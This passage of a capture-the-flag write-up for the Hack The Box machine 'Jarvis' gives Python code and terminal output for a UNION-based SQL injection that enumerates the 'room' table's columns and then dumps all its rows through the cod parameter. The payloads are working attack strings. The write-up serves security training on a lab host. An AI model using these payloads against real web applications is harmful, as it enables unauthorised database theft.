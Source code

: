 **Enumerate database `hotel` table `room`'s column names:**
```python
if __name__ == '__main__':
    url = 'http://jarvis.htb/room.php?cod='
    exploit = Exploit(url)

    for offsetPosition in range(100):
        payload = f"7 UNION ALL SELECT NULL,column_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='room' LIMIT 1 OFFSET {offsetPosition}-- -"
        isExploitSuccess, payloadResult = exploit.enumerateDatabase(payload)
        if not isExploitSuccess:
            print('[-] Exploit failed... Abort!!')
            break

        print(f'[+] Payload result: {payloadResult}')
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|20:02:49(HKT)]
└> python3 sql_injection_exploit.py
[*] Payload: 7 UNION ALL SELECT NULL,column_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='room' LIMIT 1 OFFSET 0-- -
[+] Payload result: cod
[*] Payload: 7 UNION ALL SELECT NULL,column_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='room' LIMIT 1 OFFSET 1-- -
[+] Payload result: name
[*] Payload: 7 UNION ALL SELECT NULL,column_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='room' LIMIT 1 OFFSET 2-- -
[+] Payload result: price
[*] Payload: 7 UNION ALL SELECT NULL,column_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='room' LIMIT 1 OFFSET 3-- -
[+] Payload result: descrip
[*] Payload: 7 UNION ALL SELECT NULL,column_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='room' LIMIT 1 OFFSET 4-- -
[+] Payload result: star
[*] Payload: 7 UNION ALL SELECT NULL,column_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='room' LIMIT 1 OFFSET 5-- -
[+] Payload result: image
[*] Payload: 7 UNION ALL SELECT NULL,column_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='room' LIMIT 1 OFFSET 6-- -
[+] Payload result: mini
[*] Payload: 7 UNION ALL SELECT NULL,column_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='room' LIMIT 1 OFFSET 7-- -
[-] No result :(
[-] Exploit failed... Abort!!
```

- Table `room` column names: `cod`, `name`, `price`, `descrip`, `star`, `image`, `mini`

**Exfiltrate all data from database `hotel` table `room`:**
```python
if __name__ == '__main__':
    url = 'http://jarvis.htb/room.php?cod='
    exploit = Exploit(url)

    for offsetPosition in range(100):
        payload = f"7 UNION ALL SELECT NULL,GROUP_CONCAT(cod,0x7c,name,0x7c,price,0x7c,descrip,0x7c,star,0x7c,image,0x7c,mini),NULL,NULL,NULL,NULL,NULL FROM room LIMIT 1 OFFSET {offsetPosition}-- -"
        isExploitSuccess, payloadResult = exploit.enumerateDatabase(payload)
        if not isExploitSuccess:
            print('[-] Exploit failed... Abort!!')
            break

        print(f'[+] Payload result: {payloadResult}')
```
